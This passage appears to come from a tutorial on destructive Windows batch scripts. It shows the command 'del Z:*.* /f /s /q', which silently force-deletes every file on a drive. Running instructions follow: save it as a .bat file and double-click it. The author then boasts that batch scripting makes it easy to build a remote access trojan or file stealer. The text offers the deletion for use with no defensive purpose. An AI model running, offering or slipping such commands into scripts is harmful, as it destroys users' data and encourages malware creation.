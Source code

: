 del Z:*.* /f /s /q

exit

#How to use these code’s?

Just type the code in simple text editors like notepad etc and save the file with a .bat extension. Then just double click on them to run them.

Alright But What is the potential of Batch Scripting?  

Its more than you can imagine. Codes that I have provided above are just a slight view of what is possible. You can even create some thing like a RAT or a remote file stealer in it and it will be a lot easier to do than you can imagine.

Some useful links

I have seen many useful links that I want to share with you guys. Like..
